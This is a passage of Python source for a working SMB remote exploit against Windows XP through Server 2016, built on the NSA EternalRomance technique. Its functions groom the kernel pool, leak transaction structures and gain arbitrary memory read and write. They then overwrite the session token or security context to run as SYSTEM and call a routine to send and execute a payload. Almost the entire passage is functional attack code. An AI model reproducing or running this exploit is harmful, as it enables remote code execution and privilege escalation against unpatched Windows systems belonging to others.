	# Borrow 'groom' and 'bride' word from NSA tool
	# GROOM_TRANS_SIZE includes transaction name, parameters and data
	# Note: the GROOM_TRANS_SIZE size MUST be multiple of 16 to make FRAG_TAG_OFFSET valid
	GROOM_TRANS_SIZE = 0x5010

	def leak_frag_size(conn, tid, fid):
		# this method can be used on Windows Vista/2008 and later
		# leak "Frag" pool size and determine target architecture
		info = {}
		
		# A "Frag" pool is placed after the large pool allocation if last page has some free space left.
		# A "Frag" pool size (on 64-bit) is 0x10 or 0x20 depended on Windows version.
		# To make exploit more generic, exploit does info leak to find a "Frag" pool size.
		# From the leak info, we can determine the target architecture too.
		mid = conn.next_mid()
		req1 = conn.create_nt_trans_packet(5, param=pack('<HH', fid, 0), mid=mid, data='A'*0x10d0, maxParameterCount=GROOM_TRANS_SIZE-0x10d0-TRANS_NAME_LEN)
		req2 = conn.create_nt_trans_secondary_packet(mid, data='B'*276) # leak more 276 bytes
		
		conn.send_raw(req1[:-8])
		conn.send_raw(req1[-8:]+req2)
		leakData = conn.recv_transaction_data(mid, 0x10d0+276)
		leakData = leakData[0x10d4:]  # skip parameters and its own input
		# Detect target architecture and calculate frag pool size
		if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
			print('Target is 32 bit')
			info['arch'] = 'x86'
			info['FRAG_POOL_SIZE'] = ord(leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ]) * X86_INFO['POOL_ALIGN']
		elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
			print('Target is 64 bit')
			info['arch'] = 'x64'
			info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
		else:
			print('Not found Frag pool tag in leak data')
			sys.exit()
		
		print('Got frag size: 0x{:x}'.format(info['FRAG_POOL_SIZE']))
		return info


	def read_data(conn, info, read_addr, read_size):
		fmt = info['PTR_FMT']
		# modify trans2.OutParameter to leak next transaction and trans2.OutData to leak real data
		# modify trans2.*ParameterCount and trans2.*DataCount to limit data
		new_data = pack('<'+fmt*3, info['trans2_addr']+info['TRANS_FLINK_OFFSET'], info['trans2_addr']+0x200, read_addr)  # OutParameter, InData, OutData
		new_data += pack('<II', 0, 0)  # SetupCount, MaxSetupCount
		new_data += pack('<III', 8, 8, 8)  # ParamterCount, TotalParamterCount, MaxParameterCount
		new_data += pack('<III', read_size, read_size, read_size)  # DataCount, TotalDataCount, MaxDataCount
		new_data += pack('<HH', 0, 5)  # Category, Function (NT_RENAME)
		conn.send_nt_trans_secondary(mid=info['trans1_mid'], data=new_data, dataDisplacement=info['TRANS_OUTPARAM_OFFSET'])
		
		# create one more transaction before leaking data
		# - next transaction can be used for arbitrary read/write after the current trans2 is done
		# - next transaction address is from TransactionListEntry.Flink value
		conn.send_nt_trans(5, param=pack('<HH', info['fid'], 0), totalDataCount=0x4300-0x20, totalParameterCount=0x1000)

		# finish the trans2 to leak
		conn.send_nt_trans_secondary(mid=info['trans2_mid'])
		read_data = conn.recv_transaction_data(info['trans2_mid'], 8+read_size)
		
		# set new trans2 address
		info['trans2_addr'] = unpack_from('<'+fmt, read_data)[0] - info['TRANS_FLINK_OFFSET']
		
		# set trans1.InData to &trans2
		conn.send_nt_trans_secondary(mid=info['trans1_mid'], param=pack('<'+fmt, info['trans2_addr']), paramDisplacement=info['TRANS_INDATA_OFFSET'])
		wait_for_request_processed(conn)

		# modify trans2 mid
		conn.send_nt_trans_secondary(mid=info['trans1_mid'], data=pack('<H', info['trans2_mid']), dataDisplacement=info['TRANS_MID_OFFSET'])
		wait_for_request_processed(conn)
		
		return read_data[8:]  # no need to return parameter

	def write_data(conn, info, write_addr, write_data):
		# trans2.InData
		conn.send_nt_trans_secondary(mid=info['trans1_mid'], data=pack('<'+info['PTR_FMT'], write_addr), dataDisplacement=info['TRANS_INDATA_OFFSET'])
		wait_for_request_processed(conn)
		
		# write data
		conn.send_nt_trans_secondary(mid=info['trans2_mid'], data=write_data)
		wait_for_request_processed(conn)


	def align_transaction_and_leak(conn, tid, fid, info, numFill=4):
		trans_param = pack('<HH', fid, 0)  # param for NT_RENAME
		# fill large pagedpool holes (maybe no need)
		for i in range(numFill):
			conn.send_nt_trans(5, param=trans_param, totalDataCount=0x10d0, maxParameterCount=GROOM_TRANS_SIZE-0x10d0)

		mid_ntrename = conn.next_mid()
		# first GROOM, for leaking next BRIDE transaction
		req1 = conn.create_nt_trans_packet(5, param=trans_param, mid=mid_ntrename, data='A'*0x10d0, maxParameterCount=info['GROOM_DATA_SIZE']-0x10d0)
		req2 = conn.create_nt_trans_secondary_packet(mid_ntrename, data='B'*276) # leak more 276 bytes
		# second GROOM, for controlling next BRIDE transaction
		req3 = conn.create_nt_trans_packet(5, param=trans_param, mid=fid, totalDataCount=info['GROOM_DATA_SIZE']-0x1000, maxParameterCount=0x1000)
		# many BRIDEs, expect two of them are allocated at splitted pool from GROOM
		reqs = []
		for i in range(12):
			mid = next_extra_mid()
			reqs.append(conn.create_trans_packet('', mid=mid, param=trans_param, totalDataCount=info['BRIDE_DATA_SIZE']-0x200, totalParameterCount=0x200, maxDataCount=0, maxParameterCount=0))

		conn.send_raw(req1[:-8])
		conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
		
		# expected transactions alignment ("Frag" pool is not shown)
		#
		#    |         5 * PAGE_SIZE         |   PAGE_SIZE    |         5 * PAGE_SIZE         |   PAGE_SIZE    |
		#    +-------------------------------+----------------+-------------------------------+----------------+
		#    |    GROOM mid=mid_ntrename        |  extra_mid1 |         GROOM mid=fid            |  extra_mid2 |
		#    +-------------------------------+----------------+-------------------------------+----------------+
		#
		# If transactions are aligned as we expected, BRIDE transaction with mid=extra_mid1 will be leaked.
		# From leaked transaction, we get
		# - leaked transaction address from InParameter or InData
		# - transaction, with mid=extra_mid2, address from LIST_ENTRY.Flink
		# With these information, we can verify the transaction aligment from displacement.

		leakData = conn.recv_transaction_data(mid_ntrename, 0x10d0+276)
		leakData = leakData[0x10d4:]  # skip parameters and its own input
		#open('leak.dat', 'wb').write(leakData)

		if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
			print('Not found Frag pool tag in leak data')
			return None
		
		# ================================
		# verify leak data
		# ================================
		leakData = leakData[info['FRAG_TAG_OFFSET']-4+info['FRAG_POOL_SIZE']:]
		# check pool tag and size value in buffer header
		expected_size = pack('<H', info['BRIDE_TRANS_SIZE'])
		leakTransOffset = info['POOL_ALIGN'] + info['SRV_BUFHDR_SIZE']
		if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
			print('No transaction struct in leak data')
			return None

		leakTrans = leakData[leakTransOffset:]

		ptrf = info['PTR_FMT']
		_, connection_addr, session_addr, treeconnect_addr, flink_value = unpack_from('<'+ptrf*5, leakTrans, 8)
		inparam_value = unpack_from('<'+ptrf, leakTrans, info['TRANS_INPARAM_OFFSET'])[0]
		leak_mid = unpack_from('<H', leakTrans, info['TRANS_MID_OFFSET'])[0]

		print('CONNECTION: 0x{:x}'.format(connection_addr))
		print('SESSION: 0x{:x}'.format(session_addr))
		print('FLINK: 0x{:x}'.format(flink_value))
		print('InParam: 0x{:x}'.format(inparam_value))
		print('MID: 0x{:x}'.format(leak_mid))

		next_page_addr = (inparam_value & 0xfffffffffffff000) + 0x1000
		if next_page_addr + info['GROOM_POOL_SIZE'] + info['FRAG_POOL_SIZE'] + info['POOL_ALIGN'] + info['SRV_BUFHDR_SIZE'] + info['TRANS_FLINK_OFFSET'] != flink_value:
			print('unexpected alignment, diff: 0x{:x}'.format(flink_value - next_page_addr))
			return None
		# trans1: leak transaction
		# trans2: next transaction
		return {
			'connection': connection_addr,
			'session': session_addr,
			'next_page_addr': next_page_addr,
			'trans1_mid': leak_mid,
			'trans1_addr': inparam_value - info['TRANS_SIZE'] - TRANS_NAME_LEN,
			'trans2_addr': flink_value - info['TRANS_FLINK_OFFSET'],
		}

	def exploit_matched_pairs(conn, pipe_name, info):
		# for Windows 7/2008 R2 and later
		
		tid = conn.tree_connect_andx('\\\\'+conn.get_remote_host()+'\\'+'IPC$')
		conn.set_default_tid(tid)
		# fid for first open is always 0x4000. We can open named pipe multiple times to get other fids.
		fid = conn.nt_create_andx(tid, pipe_name)
		
		info.update(leak_frag_size(conn, tid, fid))
		# add os and arch specific exploit info
		info.update(OS_ARCH_INFO[info['os']][info['arch']])
		
		# groom: srv buffer header
		info['GROOM_POOL_SIZE'] = calc_alloc_size(GROOM_TRANS_SIZE + info['SRV_BUFHDR_SIZE'] + info['POOL_ALIGN'], info['POOL_ALIGN'])
		print('GROOM_POOL_SIZE: 0x{:x}'.format(info['GROOM_POOL_SIZE']))
		# groom paramters and data is alignment by 8 because it is NT_TRANS
		info['GROOM_DATA_SIZE'] = GROOM_TRANS_SIZE - TRANS_NAME_LEN - 4 - info['TRANS_SIZE']  # alignment (4)

		# bride: srv buffer header, pool header (same as pool align size), empty transaction name (4)
		bridePoolSize = 0x1000 - (info['GROOM_POOL_SIZE'] & 0xfff) - info['FRAG_POOL_SIZE']
		info['BRIDE_TRANS_SIZE'] = bridePoolSize - (info['SRV_BUFHDR_SIZE'] + info['POOL_ALIGN'])
		print('BRIDE_TRANS_SIZE: 0x{:x}'.format(info['BRIDE_TRANS_SIZE']))
		# bride paramters and data is alignment by 4 because it is TRANS
		info['BRIDE_DATA_SIZE'] = info['BRIDE_TRANS_SIZE'] - TRANS_NAME_LEN - info['TRANS_SIZE']
		
		# ================================
		# try align pagedpool and leak info until satisfy
		# ================================
		leakInfo = None
		# max attempt: 10
		for i in range(10):
			reset_extra_mid(conn)
			leakInfo = align_transaction_and_leak(conn, tid, fid, info)
			if leakInfo is not None:
				break
			print('leak failed... try again')
			conn.close(tid, fid)
			conn.disconnect_tree(tid)
			
			tid = conn.tree_connect_andx('\\\\'+conn.get_remote_host()+'\\'+'IPC$')
			conn.set_default_tid(tid)
			fid = conn.nt_create_andx(tid, pipe_name)

		if leakInfo is None:
			return False
		
		info['fid'] = fid
		info.update(leakInfo)

		# ================================
		# shift transGroom.Indata ptr with SmbWriteAndX
		# ================================
		shift_indata_byte = 0x200
		conn.do_write_andx_raw_pipe(fid, 'A'*shift_indata_byte)

		# Note: Even the distance between bride transaction is exactly what we want, the groom transaction might be in a wrong place.
		#       So the below operation is still dangerous. Write only 1 byte with '\x00' might be safe even alignment is wrong.
		# maxParameterCount (0x1000), trans name (4), param (4)
		indata_value = info['next_page_addr'] + info['TRANS_SIZE'] + 8 + info['SRV_BUFHDR_SIZE'] + 0x1000 + shift_indata_byte
		indata_next_trans_displacement = info['trans2_addr'] - indata_value
		conn.send_nt_trans_secondary(mid=fid, data='\x00', dataDisplacement=indata_next_trans_displacement + info['TRANS_MID_OFFSET'])
		wait_for_request_processed(conn)

		# if the overwritten is correct, a modified transaction mid should be special_mid now.
		# a new transaction with special_mid should be error.
		recvPkt = conn.send_nt_trans(5, mid=special_mid, param=pack('<HH', fid, 0), data='')
		if recvPkt.getNTStatus() != 0x10002:  # invalid SMB
			print('unexpected return status: 0x{:x}'.format(recvPkt.getNTStatus()))
			print('!!! Write to wrong place !!!')
			print('the target might be crashed')
			return False

		print('success controlling groom transaction')

		# NSA exploit set refCnt on leaked transaction to very large number for reading data repeatly
		# but this method make the transation never get freed
		# I will avoid memory leak
		
		# ================================
		# modify trans1 struct to be used for arbitrary read/write
		# ================================
		print('modify trans1 struct for arbitrary read/write')
		fmt = info['PTR_FMT']
		# use transGroom to modify trans2.InData to &trans1. so we can modify trans1 with trans2 data
		conn.send_nt_trans_secondary(mid=fid, data=pack('<'+fmt, info['trans1_addr']), dataDisplacement=indata_next_trans_displacement + info['TRANS_INDATA_OFFSET'])
		wait_for_request_processed(conn)

		# modify
		# - trans1.InParameter to &trans1. so we can modify trans1 struct with itself (trans1 param)
		# - trans1.InData to &trans2. so we can modify trans2 with trans1 data
		conn.send_nt_trans_secondary(mid=special_mid, data=pack('<'+fmt*3, info['trans1_addr'], info['trans1_addr']+0x200, info['trans2_addr']), dataDisplacement=info['TRANS_INPARAM_OFFSET'])
		wait_for_request_processed(conn)

		# modify trans2.mid
		info['trans2_mid'] = conn.next_mid()
		conn.send_nt_trans_secondary(mid=info['trans1_mid'], data=pack('<H', info['trans2_mid']), dataDisplacement=info['TRANS_MID_OFFSET'])
		return True

	def exploit_fish_barrel(conn, pipe_name, info):
		# for Windows Vista/2008 and earlier
		
		tid = conn.tree_connect_andx('\\\\'+conn.get_remote_host()+'\\'+'IPC$')
		conn.set_default_tid(tid)
		# fid for first open is always 0x4000. We can open named pipe multiple times to get other fids.
		fid = conn.nt_create_andx(tid, pipe_name)
		info['fid'] = fid

		if info['os'] == 'WIN7' and 'arch' not in info:
			# leak_frag_size() can be used against Windows Vista/2008 to determine target architecture
			info.update(leak_frag_size(conn, tid, fid))
		
		if 'arch' in info:
			# add os and arch specific exploit info
			info.update(OS_ARCH_INFO[info['os']][info['arch']])
			attempt_list = [ OS_ARCH_INFO[info['os']][info['arch']] ]
		else:
			# do not know target architecture
			# this case is only for Windows 2003
			# try offset of 64 bit then 32 bit because no target architecture
			attempt_list = [ OS_ARCH_INFO[info['os']]['x64'], OS_ARCH_INFO[info['os']]['x86'] ]
		
		# ================================
		# groom packets
		# ================================
		# sum of transaction name, parameters and data length is 0x1000
		# paramterCount = 0x100-TRANS_NAME_LEN
		print('Groom packets')
		trans_param = pack('<HH', info['fid'], 0)
		for i in range(12):
			mid = info['fid'] if i == 8 else next_extra_mid()
			conn.send_trans('', mid=mid, param=trans_param, totalParameterCount=0x100-TRANS_NAME_LEN, totalDataCount=0xec0, maxParameterCount=0x40, maxDataCount=0)	
		
		# expected transactions alignment
		#
		#    +-----------+-----------+-----...-----+-----------+-----------+-----------+-----------+-----------+
		#    |  mid=mid1 |  mid=mid2 |             |  mid=mid8 |  mid=fid  |  mid=mid9 | mid=mid10 | mid=mid11 |
		#    +-----------+-----------+-----...-----+-----------+-----------+-----------+-----------+-----------+
		#                                                         trans1       trans2

		# ================================
		# shift transaction Indata ptr with SmbWriteAndX
		# ================================
		shift_indata_byte = 0x200
		conn.do_write_andx_raw_pipe(info['fid'], 'A'*shift_indata_byte)
		
		# ================================
		# Dangerous operation: attempt to control one transaction
		# ================================
		# Note: POOL_ALIGN value is same as heap alignment value
		success = False
		for tinfo in attempt_list:
			print('attempt controlling next transaction on ' + tinfo['ARCH'])
			HEAP_CHUNK_PAD_SIZE = (tinfo['POOL_ALIGN'] - (tinfo['TRANS_SIZE']+HEAP_HDR_SIZE) % tinfo['POOL_ALIGN']) % tinfo['POOL_ALIGN']
			NEXT_TRANS_OFFSET = 0xf00 - shift_indata_byte + HEAP_CHUNK_PAD_SIZE + HEAP_HDR_SIZE

			# Below operation is dangerous. Write only 1 byte with '\x00' might be safe even alignment is wrong.
			conn.send_trans_secondary(mid=info['fid'], data='\x00', dataDisplacement=NEXT_TRANS_OFFSET+tinfo['TRANS_MID_OFFSET'])
			wait_for_request_processed(conn)

			# if the overwritten is correct, a modified transaction mid should be special_mid now.
			# a new transaction with special_mid should be error.
			recvPkt = conn.send_nt_trans(5, mid=special_mid, param=trans_param, data='')
			if recvPkt.getNTStatus() == 0x10002:  # invalid SMB
				print('success controlling one transaction')
				success = True
				if 'arch' not in info:
					print('Target is '+tinfo['ARCH'])
					info['arch'] = tinfo['ARCH']
					info.update(OS_ARCH_INFO[info['os']][info['arch']])
				break
			if recvPkt.getNTStatus() != 0:
				print('unexpected return status: 0x{:x}'.format(recvPkt.getNTStatus()))
		
		if not success:
			print('unexpected return status: 0x{:x}'.format(recvPkt.getNTStatus()))
			print('!!! Write to wrong place !!!')
			print('the target might be crashed')
			return False


		# NSA eternalromance modify transaction RefCount to keep controlled and reuse transaction after leaking info.
		# This is easy to to but the modified transaction will never be freed. The next exploit attempt might be harder
		#   because of this unfreed memory chunk. I will avoid it.
		
		# From a picture above, now we can only control trans2 by trans1 data. Also we know only offset of these two 
		# transactions (do not know the address).
		# After reading memory by modifying and completing trans2, trans2 cannot be used anymore.
		# To be able to use trans1 after trans2 is gone, we need to modify trans1 to be able to modify itself.
		# To be able to modify trans1 struct, we need to use trans2 param or data but write backward.
		# On 32 bit target, we can write to any address if parameter count is 0xffffffff.
		# On 64 bit target, modifying paramter count is not enough because address size is 64 bit. Because our transactions
		#   are allocated with RtlAllocateHeap(), the HIDWORD of InParameter is always 0. To be able to write backward with offset only,
		#   we also modify HIDWORD of InParameter to 0xffffffff.
		
		print('modify parameter count to 0xffffffff to be able to write backward')
		conn.send_trans_secondary(mid=info['fid'], data='\xff'*4, dataDisplacement=NEXT_TRANS_OFFSET+info['TRANS_TOTALPARAMCNT_OFFSET'])
		# on 64 bit, modify InParameter last 4 bytes to \xff\xff\xff\xff too
		if info['arch'] == 'x64':
			conn.send_trans_secondary(mid=info['fid'], data='\xff'*4, dataDisplacement=NEXT_TRANS_OFFSET+info['TRANS_INPARAM_OFFSET']+4)
		wait_for_request_processed(conn)
		
		TRANS_CHUNK_SIZE = HEAP_HDR_SIZE + info['TRANS_SIZE'] + 0x1000 + HEAP_CHUNK_PAD_SIZE
		PREV_TRANS_DISPLACEMENT = TRANS_CHUNK_SIZE + info['TRANS_SIZE'] + TRANS_NAME_LEN
		PREV_TRANS_OFFSET = 0x100000000 - PREV_TRANS_DISPLACEMENT

		# modify paramterCount of first transaction
		conn.send_nt_trans_secondary(mid=special_mid, param='\xff'*4, paramDisplacement=PREV_TRANS_OFFSET+info['TRANS_TOTALPARAMCNT_OFFSET'])
		if info['arch'] == 'x64':
			conn.send_nt_trans_secondary(mid=special_mid, param='\xff'*4, paramDisplacement=PREV_TRANS_OFFSET+info['TRANS_INPARAM_OFFSET']+4)
			# restore trans2.InParameters pointer before leaking next transaction
			conn.send_trans_secondary(mid=info['fid'], data='\x00'*4, dataDisplacement=NEXT_TRANS_OFFSET+info['TRANS_INPARAM_OFFSET']+4)
		wait_for_request_processed(conn)

		# ================================
		# leak transaction
		# ================================
		print('leak next transaction')
		# modify TRANSACTION member to leak info
		# function=5 (NT_TRANS_RENAME)
		conn.send_trans_secondary(mid=info['fid'], data='\x05', dataDisplacement=NEXT_TRANS_OFFSET+info['TRANS_FUNCTION_OFFSET'])
		# parameterCount, totalParameterCount, maxParameterCount, dataCount, totalDataCount
		conn.send_trans_secondary(mid=info['fid'], data=pack('<IIIII', 4, 4, 4, 0x100, 0x100), dataDisplacement=NEXT_TRANS_OFFSET+info['TRANS_PARAMCNT_OFFSET'])

		conn.send_nt_trans_secondary(mid=special_mid)
		leakData = conn.recv_transaction_data(special_mid, 0x100)
		leakData = leakData[4:]  # remove param
		#open('leak.dat', 'wb').write(leakData)

		# check heap chunk size value in leak data
		if unpack_from('<H', leakData, HEAP_CHUNK_PAD_SIZE)[0] != (TRANS_CHUNK_SIZE // info['POOL_ALIGN']):
			print('chunk size is wrong')
			return False

		# extract leak transaction data and make next transaction to be trans2
		leakTranOffset = HEAP_CHUNK_PAD_SIZE + HEAP_HDR_SIZE
		leakTrans = leakData[leakTranOffset:]
		fmt = info['PTR_FMT']
		_, connection_addr, session_addr, treeconnect_addr, flink_value = unpack_from('<'+fmt*5, leakTrans, 8)
		inparam_value, outparam_value, indata_value = unpack_from('<'+fmt*3, leakTrans, info['TRANS_INPARAM_OFFSET'])
		trans2_mid = unpack_from('<H', leakTrans, info['TRANS_MID_OFFSET'])[0]
		
		print('CONNECTION: 0x{:x}'.format(connection_addr))
		print('SESSION: 0x{:x}'.format(session_addr))
		print('FLINK: 0x{:x}'.format(flink_value))
		print('InData: 0x{:x}'.format(indata_value))
		print('MID: 0x{:x}'.format(trans2_mid))
		
		trans2_addr = inparam_value - info['TRANS_SIZE'] - TRANS_NAME_LEN
		trans1_addr = trans2_addr - TRANS_CHUNK_SIZE * 2
		print('TRANS1: 0x{:x}'.format(trans1_addr))
		print('TRANS2: 0x{:x}'.format(trans2_addr))
		
		# ================================
		# modify trans struct to be used for arbitrary read/write
		# ================================
		print('modify transaction struct for arbitrary read/write')
		# modify
		# - trans1.InParameter to &trans1. so we can modify trans1 struct with itself (trans1 param)
		# - trans1.InData to &trans2. so we can modify trans2 with trans1 data
		# Note: HIDWORD of trans1.InParameter is still 0xffffffff
		TRANS_OFFSET = 0x100000000 - (info['TRANS_SIZE'] + TRANS_NAME_LEN)
		conn.send_nt_trans_secondary(mid=info['fid'], param=pack('<'+fmt*3, trans1_addr, trans1_addr+0x200, trans2_addr), paramDisplacement=TRANS_OFFSET+info['TRANS_INPARAM_OFFSET'])
		wait_for_request_processed(conn)
		
		# modify trans1.mid
		trans1_mid = conn.next_mid()
		conn.send_trans_secondary(mid=info['fid'], param=pack('<H', trans1_mid), paramDisplacement=info['TRANS_MID_OFFSET'])
		wait_for_request_processed(conn)
		
		info.update({
			'connection': connection_addr,
			'session': session_addr,
			'trans1_mid': trans1_mid,
			'trans1_addr': trans1_addr,
			'trans2_mid': trans2_mid,
			'trans2_addr': trans2_addr,
		})
		return True

	def create_fake_SYSTEM_UserAndGroups(conn, info, userAndGroupCount, userAndGroupsAddr):
		SID_SYSTEM = pack('<BB5xB'+'I', 1, 1, 5, 18)
		SID_ADMINISTRATORS = pack('<BB5xB'+'II', 1, 2, 5, 32, 544)
		SID_AUTHENICATED_USERS = pack('<BB5xB'+'I', 1, 1, 5, 11)
		SID_EVERYONE = pack('<BB5xB'+'I', 1, 1, 1, 0)
		# SID_SYSTEM and SID_ADMINISTRATORS must be added
		sids = [ SID_SYSTEM, SID_ADMINISTRATORS, SID_EVERYONE, SID_AUTHENICATED_USERS ]
		# - user has no attribute (0)
		# - 0xe: SE_GROUP_OWNER | SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT
		# - 0x7: SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY
		attrs = [ 0, 0xe, 7, 7 ]
		
		# assume its space is enough for SID_SYSTEM and SID_ADMINISTRATORS (no check)
		# fake user and groups will be in same buffer of original one
		# so fake sids size must NOT be bigger than the original sids
		fakeUserAndGroupCount = min(userAndGroupCount, 4)
		fakeUserAndGroupsAddr = userAndGroupsAddr
		
		addr = fakeUserAndGroupsAddr + (fakeUserAndGroupCount * info['PTR_SIZE'] * 2)
		fakeUserAndGroups = ''
		for sid, attr in zip(sids[:fakeUserAndGroupCount], attrs[:fakeUserAndGroupCount]):
			fakeUserAndGroups += pack('<'+info['PTR_FMT']*2, addr, attr)
			addr += len(sid)
		fakeUserAndGroups += ''.join(sids[:fakeUserAndGroupCount])
		
		return fakeUserAndGroupCount, fakeUserAndGroups


	def exploit(target, port, pipe_name):
		print('Trying to connect to %s:%d' % (target, port))
		conn = MYSMB(target, port)
		
		# set NODELAY to make exploit much faster
		conn.get_socket().setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

		info = {}

		conn.login(USERNAME, PASSWORD, maxBufferSize=4356)
		server_os = conn.get_server_os()
		print('Target OS: '+server_os)
		if server_os.startswith("Windows 7 ") or server_os.startswith("Windows Server 2008 R2"):
			info['os'] = 'WIN7'
			info['method'] = exploit_matched_pairs
		elif server_os.startswith("Windows 8") or server_os.startswith("Windows Server 2012 ") or server_os.startswith("Windows Server 2016 ") or server_os.startswith("Windows 10") or server_os.startswith("Windows RT 9200"):
			info['os'] = 'WIN8'
			info['method'] = exploit_matched_pairs
		elif server_os.startswith("Windows Server (R) 2008") or server_os.startswith('Windows Vista'):
			info['os'] = 'WIN7'
			info['method'] = exploit_fish_barrel
		elif server_os.startswith("Windows Server 2003 "):
			info['os'] = 'WIN2K3'
			info['method'] = exploit_fish_barrel
		elif server_os.startswith("Windows 5.1"):
			info['os'] = 'WINXP'
			info['arch'] = 'x86'
			info['method'] = exploit_fish_barrel
		elif server_os.startswith("Windows XP "):
			info['os'] = 'WINXP'
			info['arch'] = 'x64'
			info['method'] = exploit_fish_barrel
		elif server_os.startswith("Windows 5.0"):
			info['os'] = 'WIN2K'
			info['arch'] = 'x86'
			info['method'] = exploit_fish_barrel
		else:
			print('This exploit does not support this target')
			sys.exit()
		
		if pipe_name is None:
			pipe_name = find_named_pipe(conn)
			if pipe_name is None:
				print('Not found accessible named pipe')
				return False
			print('Using named pipe: '+pipe_name)

		if not info['method'](conn, pipe_name, info):
			return False

		# Now, read_data() and write_data() can be used for arbitrary read and write.
		# ================================
		# Modify this SMB session to be SYSTEM
		# ================================	
		fmt = info['PTR_FMT']
		
		print('make this SMB session to be SYSTEM')
		# IsNullSession = 0, IsAdmin = 1
		write_data(conn, info, info['session']+info['SESSION_ISNULL_OFFSET'], '\x00\x01')

		# read session struct to get SecurityContext address
		sessionData = read_data(conn, info, info['session'], 0x100)
		secCtxAddr = unpack_from('<'+fmt, sessionData, info['SESSION_SECCTX_OFFSET'])[0]

		if 'PCTXTHANDLE_TOKEN_OFFSET' in info:
			# Windows 2003 and earlier uses only ImpersonateSecurityContext() (with PCtxtHandle struct) for impersonation
			# Modifying token seems to be difficult. But writing kernel shellcode for all old Windows versions is
			# much more difficult because data offset in ETHREAD/EPROCESS is different between service pack.
			
			# find the token and modify it
			if 'SECCTX_PCTXTHANDLE_OFFSET' in info:
				pctxtDataInfo = read_data(conn, info, secCtxAddr+info['SECCTX_PCTXTHANDLE_OFFSET'], 8)
				pctxtDataAddr = unpack_from('<'+fmt, pctxtDataInfo)[0]
			else:
				pctxtDataAddr = secCtxAddr

			tokenAddrInfo = read_data(conn, info, pctxtDataAddr+info['PCTXTHANDLE_TOKEN_OFFSET'], 8)
			tokenAddr = unpack_from('<'+fmt, tokenAddrInfo)[0]
			print('current TOKEN addr: 0x{:x}'.format(tokenAddr))
			
			# copy Token data for restoration
			tokenData = read_data(conn, info, tokenAddr, 0x40*info['PTR_SIZE'])
			
			# parse necessary data out of token
			userAndGroupsAddr, userAndGroupCount, userAndGroupsAddrOffset, userAndGroupCountOffset = get_group_data_from_token(info, tokenData)

			print('overwriting token UserAndGroups')
			# modify UserAndGroups info
			fakeUserAndGroupCount, fakeUserAndGroups = create_fake_SYSTEM_UserAndGroups(conn, info, userAndGroupCount, userAndGroupsAddr)
			if fakeUserAndGroupCount != userAndGroupCount:
				write_data(conn, info, tokenAddr+userAndGroupCountOffset, pack('<I', fakeUserAndGroupCount))
			write_data(conn, info, userAndGroupsAddr, fakeUserAndGroups)
		else:
			# the target can use PsImperonateClient for impersonation (Windows 2008 and later)
			# copy SecurityContext for restoration
			secCtxData = read_data(conn, info, secCtxAddr, info['SECCTX_SIZE'])

			print('overwriting session security context')
			# see FAKE_SECCTX detail at top of the file
			write_data(conn, info, secCtxAddr, info['FAKE_SECCTX'])

		# ================================
		# do whatever we want as SYSTEM over this SMB connection
		# ================================	
		try:
			send_and_execute(conn, info['arch'])
		except:
			pass

		# restore SecurityContext/Token
		if 'PCTXTHANDLE_TOKEN_OFFSET' in info:
			userAndGroupsOffset = userAndGroupsAddr - tokenAddr
			write_data(conn, info, userAndGroupsAddr, tokenData[userAndGroupsOffset:userAndGroupsOffset+len(fakeUserAndGroups)])
			if fakeUserAndGroupCount != userAndGroupCount:
				write_data(conn, info, tokenAddr+userAndGroupCountOffset, pack('<I', userAndGroupCount))
		else:
			write_data(conn, info, secCtxAddr, secCtxData)

		conn.disconnect_tree(conn.get_tid())
		conn.logoff()
		conn.get_socket().close()
		return True

	def validate_token_offset(info, tokenData, userAndGroupCountOffset, userAndGroupsAddrOffset):
		# struct _TOKEN:
		#	...
		#	ULONG UserAndGroupCount;                            // Ro: 4-Bytes
		#	ULONG RestrictedSidCount;                           // Ro: 4-Bytes
		# 	...
		#	PSID_AND_ATTRIBUTES UserAndGroups;                  // Wr: sizeof(void*)
		#	PSID_AND_ATTRIBUTES RestrictedSids;                 // Ro: sizeof(void*)
		#	...

		userAndGroupCount, RestrictedSidCount = unpack_from('<II', tokenData, userAndGroupCountOffset) 
		userAndGroupsAddr, RestrictedSids = unpack_from('<'+info['PTR_FMT']*2, tokenData, userAndGroupsAddrOffset)

		# RestrictedSidCount 	MUST be 0
		# RestrictedSids 	MUST be NULL
		#
		# userandGroupCount 	must NOT be 0
		# userandGroupsAddr 	must NOT be NULL
		#
		# Could also add a failure point here if userAndGroupCount >= x

		success = True

		if RestrictedSidCount != 0 or RestrictedSids != 0 or userAndGroupCount == 0 or userAndGroupsAddr == 0:
			print('Bad TOKEN_USER_GROUP offsets detected while parsing tokenData!')
			print('RestrictedSids: 0x{:x}'.format(RestrictedSids))
			print('RestrictedSidCount: 0x{:x}'.format(RestrictedSidCount))
			success = False

		print('userAndGroupCount: 0x{:x}'.format(userAndGroupCount))
		print('userAndGroupsAddr: 0x{:x}'.format(userAndGroupsAddr))

		return success, userAndGroupCount, userAndGroupsAddr 

	def get_group_data_from_token(info, tokenData):
		userAndGroupCountOffset = info['TOKEN_USER_GROUP_CNT_OFFSET']
		userAndGroupsAddrOffset = info['TOKEN_USER_GROUP_ADDR_OFFSET']

		# try with default offsets
		success, userAndGroupCount, userAndGroupsAddr = validate_token_offset(info, tokenData, userAndGroupCountOffset, userAndGroupsAddrOffset)

		# hack to fix XP SP0 and SP1
		# I will avoid over-engineering a more elegant solution and leave this as a hack, 
		# since XP SP0 and SP1 is the only edge case in a LOT of testing!
		if not success and info['os'] == 'WINXP' and info['arch'] == 'x86':
			print('Attempting WINXP SP0/SP1 x86 TOKEN_USER_GROUP workaround')

